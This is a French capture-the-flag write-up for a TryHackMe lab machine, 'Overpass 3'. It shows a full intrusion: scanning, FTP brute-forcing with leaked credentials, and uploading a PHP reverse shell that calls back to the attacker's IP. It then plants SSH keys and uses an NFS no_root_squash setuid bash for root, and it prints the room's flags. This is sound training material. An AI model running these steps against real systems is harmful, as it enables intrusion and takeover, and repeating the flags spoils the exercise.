



# Overpass 3 - Hosting #

## Task 1 Overpass3 - Adventures in Hosting ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.204.104 overpass3.thm' >> /etc/hosts"  
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A overpass3.thm -p- -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 19:52 CEST
Nmap scan report for overpass3.thm (10.10.204.104)
Host is up (0.033s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (91%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%), Linux 2.6.32 - 3.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Unix

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.47 ms 10.9.0.1
2   32.75 ms overpass3.thm (10.10.204.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.05 seconds

```

Nmap nous montre plusieurs service :   
Le service FTP sur le port 21.   
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp overpass3.thm 
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:tim): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```

Sur le service FTP ne fonctionne pas avec nom anonymous, il nous faut un nom et un mot de passe.   

   

Sur la page web il y a pas grand chose.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://overpass3.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/backups              (Status: 301) [Size: 237] [--> http://overpass3.thm/backups/]
/cgi-bin/             (Status: 403) [Size: 217]                                    
/index.html           (Status: 200) [Size: 1770]            
```

Avec gobuster on voit un répertoire qui nous intéresse qui est backups.  

   

Dans backups on trouve un fichier backup.zip.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://overpass3.thm/backups/backup.zip -nv
2021-09-12 20:15:37 URL:http://overpass3.thm/backups/backup.zip [13353/13353] -> "backup.zip" [1]

tim@kali:~/Bureau/tryhackme/write-up$ unzip backup.zip 
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key                

tim@kali:~/Bureau/tryhackme/write-up$ gpg --import priv.key 
gpg: clef C9AE71AB3180BC08 : clef publique « Paradox <paradox@overpass.thm> » importée
gpg: clef C9AE71AB3180BC08 : clef secrète importée
gpg:       Quantité totale traitée : 1
gpg:                     importées : 1
gpg:           clefs secrètes lues : 1
gpg:      clefs secrètes importées : 1

tim@kali:~/Bureau/tryhackme/write-up$ gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
gpg: chiffré avec une clef RSA de 2048 bits, identifiant 9E86A1C63FB96335, créée le 2020-11-08
      « Paradox <paradox@overpass.thm> »
```

On télécharge backup.zip.   
On décompresse les fichiers.   
On importe la clef.
On déchiffre le fichier.   

   

On ouvre le fichier avec un tableur et on trouve plusieurs identifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat username.txt 
paradox
0day
muirlandoracle

tim@kali:~/Bureau/tryhackme/write-up$ cat password.txt 
ShibesAreGreat123
OllieIsTheBestDog
A11D0gsAreAw3s0me

im@kali:~/Bureau/tryhackme/write-up$ hydra -L username.txt -P password.txt ftp://overpass3.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-12 20:33:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://overpass3.thm:21/
[21][ftp] host: overpass3.thm   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-12 20:33:58

```

Avec les identifiants on brute force le service FTP.  
On trouve le bon identiant qui est paradox et ShibesAreGreat123.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp overpass3.thm
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:tim): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    3 48       48             94 Nov 17  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.
ftp> exit
221 Goodbye.
```

On se connecte sur le service FTP.  
On memarque qu'une fois à l'interieur on est à la racine de notre site web.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-09-12 20:42:12 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ ftp overpass3.thm
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:tim): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (141.5820 MB/s)
ftp> exit
221 Goodbye.
```

On télécharge un reverse shell en php. 
On le configure.  
On le téléverse avec le service FTP dans la racine du site. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour établire une connexion.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://overpass3.thm/php-reverse-shell.php
```
On lance le reverse shell.   

**Web Flag**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.204.104] 43502
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:52:35 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (871): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
find / -type f -name web* 2>/dev/null
/usr/lib64/python3.6/__pycache__/webbrowser.cpython-36.opt-1.pyc
/usr/lib64/python3.6/__pycache__/webbrowser.cpython-36.opt-2.pyc
/usr/lib64/python3.6/__pycache__/webbrowser.cpython-36.pyc
/usr/lib64/python3.6/webbrowser.py
/usr/share/mime/image/webp.xml
/usr/share/mime/audio/webm.xml
/usr/share/mime/video/webm.xml
/usr/share/httpd/web.flag

cat /usr/share/httpd/web.flag
thm{0ae72f7870c3687129f7a824194be09d}
```

On obtient un shell avec les droits apache.  
On recherche le flag web.  
On trouve un fichier web.flag, on le lit et on obtient le flag.   

La réponse est : thm{0ae72f7870c3687129f7a824194be09d}   

```bash
sh-4.4$ ls /home/
ls /home/
james
paradox

sh-4.4$ su paradox
su paradox
Password: ShibesAreGreat123

id
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
```

On peut se connecter sur le compte paradox avec le même mot de passe que le celui pour ftp.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh-keygen -f paradox
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in paradox
Your public key has been saved in paradox.pub
The key fingerprint is:
SHA256:I236UBkIgjv5r6OBAt3tLpk+pE+ACJX6lk2uW6xrdS8 tim@kali
The key's randomart image is:
+---[RSA 3072]----+
| .o..            |
|.... . .         |
|.+    . .        |
|Bo ... . o       |
|++o=. o S        |
|o =o=..= .       |
|+. *+++.         |
|..=+*.Eo.        |
|.o=Boo...        |
+----[SHA256]-----+
tim@kali:~/Bureau/tryhackme/write-up$ cat paradox.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTtY2ApLLmd0lB/4WGDAWo0pcu9CThSM6in/J0dXTyaqwyl6KJijIqvovDsREIziNc7+O5Y+pVQ6mE2ADxL3n3antVPp2UfES2m1ZOCqFJBWNQYtkfqLCeZaLGKA/ck7hXJT3gxyDsuP9uBoJBPeNzE5ZX0aKA7ZQwja87+kUejmg7hrdfORpQatefmj/ritgTMJiFYpHMEKw/jaGLWsbt2yc7CBzKCqXzwv/L/3ldfDvkpEirFx5gcBw0byDTs/UJiuZs4ftU5wdQS0vESI07NuRl2K9MtTYVW581RCfR8ZJAmZN0ql48ESizr3r3p6v3og73P9d3A5mZzIciDJomENCX3bIxWxOjZeyIUmlhxzLKFJt5jG9v1GC/vYw0MwB0CVK4w4qaSSUXrJ17lkE6aa5VDCYPTGcQXtj+WcdOAc2MAiHzRUy68tmVMuJS/TF8V3tn9Wfz6p9UA68MFBgjTo9k/nqwqmmii8CqhT5e816m4fAdCJ2fakBGh2oMMHc= tim@kali
```

On génère une clef ssh.   

```bash
cd /home/paradox/.ssh
ls -al
total 8
drwx------  2 paradox paradox  47 Nov 18  2020 .
drwx------. 4 paradox paradox 203 Nov 18  2020 ..
-rw-------  1 paradox paradox 583 Nov 18  2020 authorized_keys
-rw-r--r--  1 paradox paradox 583 Nov 18  2020 id_rsa.pub

echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTtY2ApLLmd0lB/4WGDAWo0pcu9CThSM6in/J0dXTyaqwyl6KJijIqvovDsREIziNc7+O5Y+pVQ6mE2ADxL3n3antVPp2UfES2m1ZOCqFJBWNQYtkfqLCeZaLGKA/ck7hXJT3gxyDsuP9uBoJBPeNzE5ZX0aKA7ZQwja87+kUejmg7hrdfORpQatefmj/ritgTMJiFYpHMEKw/jaGLWsbt2yc7CBzKCqXzwv/L/3ldfDvkpEirFx5gcBw0byDTs/UJiuZs4ftU5wdQS0vESI07NuRl2K9MtTYVW581RCfR8ZJAmZN0ql48ESizr3r3p6v3og73P9d3A5mZzIciDJomENCX3bIxWxOjZeyIUmlhxzLKFJt5jG9v1GC/vYw0MwB0CVK4w4qaSSUXrJ17lkE6aa5VDCYPTGcQXtj+WcdOAc2MAiHzRUy68tmVMuJS/TF8V3tn9Wfz6p9UA68MFBgjTo9k/nqwqmmii8CqhT5e816m4fAdCJ2fakBGh2oMMHc= tim@kali
' > authorized_keys
```

On insert la clef comme une clef authorisée.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/PEASS-ng/master/linPEAS/linpeas.sh -nv
2021-09-12 21:25:27 URL:https://raw.githubusercontent.com/timruff/PEASS-ng/master/linPEAS/linpeas.sh [470149/470149] -> "linpeas.sh" [1]

tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 paradox

tim@kali:~/Bureau/tryhackme/write-up$ scp -i paradox linpeas.sh  paradox@overpass3.thm:/tmp/
linpeas.sh         

tim@kali:~/Bureau/tryhackme/write-up$ ssh -i paradox paradox@overpass3.thm
Last login: Sun Sep 12 20:55:05 2021 from 10.9.228.66
[paradox@localhost ~]$ 
```

On télécharge ub énumérateur qui linpeas.sh.   
On met les bon droits sur la clef privée.   
On transfer le fichier linpeas.sh sur la machine cible.  
On se connecte sur le compte de paradox.  

```bash
[paradox@localhost ~]$ cd /tmp
[paradox@localhost tmp]$ chmod +x linpeas.sh 

[paradox@localhost tmp]$ ./linpeas.sh
...
╔══════════╣ NFS exports?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)...
```

On voit que le partage NFS est activée pour le répertoire /home/james et que no_root_squash est activée.  
Si no_root_squash est activé on peut à distance on lire et modifier les fichiers.   

```bash
[paradox@localhost tmp]$ showmount -e 127.0.0.1
Export list for 127.0.0.1:
/home/james *
```

On voit que localement /home/james est monté.  

```bash
[paradox@localhost tmp]$ ss -lt
State                           Recv-Q                          Send-Q                                                    Local Address:Port                                                       Peer Address:Port                          
LISTEN                          0                               128                                                             0.0.0.0:sunrpc                                                          0.0.0.0:*                             
LISTEN                          0                               128                                                             0.0.0.0:mountd                                                          0.0.0.0:*                             
LISTEN                          0                               128                                                             0.0.0.0:ssh                                                             0.0.0.0:*                             
LISTEN                          0                               64                                                              0.0.0.0:38779                                                           0.0.0.0:*                             
LISTEN                          0                               64                                                              0.0.0.0:nfs                                                             0.0.0.0:*                             
LISTEN                          0                               128                                                             0.0.0.0:51525                                                           0.0.0.0:*                             
LISTEN                          0                               128                                                                [::]:sunrpc                                                             [::]:*                             
LISTEN                          0                               128                                                                [::]:mountd                                                             [::]:*                             
LISTEN                          0                               128                                                                   *:http                                                                  *:*                             
LISTEN                          0                               32                                                                    *:ftp                                                                   *:*                             
LISTEN                          0                               128                                                                [::]:ssh                                                                [::]:*                             
LISTEN                          0                               64                                                                 [::]:44703                                                              [::]:*                             
LISTEN                          0                               64                                                                 [::]:nfs                                                                [::]:*                             
LISTEN                          0                               128                                                                [::]:42757                                                              [::]:* 

[paradox@localhost tmp]$ ss -ltn
State                           Recv-Q                          Send-Q                                                     Local Address:Port                                                      Peer Address:Port                          
LISTEN                          0                               128                                                              0.0.0.0:111                                                            0.0.0.0:*                             
LISTEN                          0                               128                                                              0.0.0.0:20048                                                          0.0.0.0:*                             
LISTEN                          0                               128                                                              0.0.0.0:22                                                             0.0.0.0:*                             
LISTEN                          0                               64                                                               0.0.0.0:38779                                                          0.0.0.0:*                             
LISTEN                          0                               64                                                               0.0.0.0:2049                                                           0.0.0.0:*                             
LISTEN                          0                               128                                                              0.0.0.0:51525                                                          0.0.0.0:*                             
LISTEN                          0                               128                                                                 [::]:111                                                               [::]:*                             
LISTEN                          0                               128                                                                 [::]:20048                                                             [::]:*                             
LISTEN                          0                               128                                                                    *:80                                                                   *:*                             
LISTEN                          0                               32                                                                     *:21                                                                   *:*                             
LISTEN                          0                               128                                                                 [::]:22                                                                [::]:*                             
LISTEN                          0                               64                                                                  [::]:44703                                                             [::]:*                             
LISTEN                          0                               64                                                                  [::]:2049                                                              [::]:*                             
LISTEN                          0                               128                                                                 [::]:42757                                                             [::]:*               

```

On voit le port 2049 et le port de nfs.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh paradox@overpass3.thm -i paradox -L 2049:127.0.0.1:2049
Last login: Sun Sep 12 20:57:08 2021 from 10.9.228.66
[paradox@localhost ~]$ 
```

On fait du redirection de port 2049. 
On redirige le 2049 de la machine cible sur le l'adresse 127.0.0.1 et le port 2049 de notre machine.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir /tmp/overpass3
tim@kali:~/Bureau/tryhackme/write-up$ sudo mount -t nfs 127.0.0.1:/ /tmp/overpass3
```

On crée le repertoire overpass3 dans tmp.  
On monte le partage dans /tmp/overpass3.  

**User Flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cd /tmp/overpass3
tim@kali:/tmp/overpass3$ ls
user.flag
tim@kali:/tmp/overpass3$ cat user.flag
thm{3693fc86661faa21f16ac9508a43e1ae}
```

On va dans le partage qui est dans ovepasse3.   
On trouve notre flag dans user.txt

La réponse est : thm{3693fc86661faa21f16ac9508a43e1ae}  

```bash
tim@kali:/tmp/overpass3/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTtY2ApLLmd0lB/4WGDAWo0pcu9CThSM6in/J0dXTyaqwyl6KJijIqvovDsREIziNc7+O5Y+pVQ6mE2ADxL3n3antVPp2UfES2m1ZOCqFJBWNQYtkfqLCeZaLGKA/ck7hXJT3gxyDsuP9uBoJBPeNzE5ZX0aKA7ZQwja87+kUejmg7hrdfORpQatefmj/ritgTMJiFYpHMEKw/jaGLWsbt2yc7CBzKCqXzwv/L/3ldfDvkpEirFx5gcBw0byDTs/UJiuZs4ftU5wdQS0vESI07NuRl2K9MtTYVW581RCfR8ZJAmZN0ql48ESizr3r3p6v3og73P9d3A5mZzIciDJomENCX3bIxWxOjZeyIUmlhxzLKFJt5jG9v1GC/vYw0MwB0CVK4w4qaSSUXrJ17lkE6aa5VDCYPTGcQXtj+WcdOAc2MAiHzRUy68tmVMuJS/TF8V3tn9Wfz6p9UA68MFBgjTo9k/nqwqmmii8CqhT5e816m4fAdCJ2fakBGh2oMMHc= tim@kali' > authorized_keys
```

On met notre clef comme clef authorisée pour james.  

```bash
tim@kali:/tmp/overpass3$ cp /bin/bash ./bash
tim@kali:/tmp/overpass3$ sudo chown root:root bash
tim@kali:/tmp/overpass3$ sudo chmod 4777 bash

```

On copier notre bash dans le dossier james de la machine cible.   
On lui dit qu'il appartient root.  
On lui bit setuid ainsi que tous les droits pour tout le monde sur le fichier bash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i paradox james@overpass3.thm 
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145

bash  user.flag
[james@localhost ~]$ ./bash
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1$ id
uid=1000(james) gid=1000(james) groupes=1000(james)
bash-5.1# cat /root/root.flag
thm{a4f6adb70371a4bceb32988417456c44}
```

On se connecte sur le compte de james en ssh.  
On exécute notre bash modifié.  
On obtient un shell avec les droits root.   
On lit le fichier root.flag dans le répertoire root. 

La réponse est : thm{a4f6adb70371a4bceb32988417456c44}   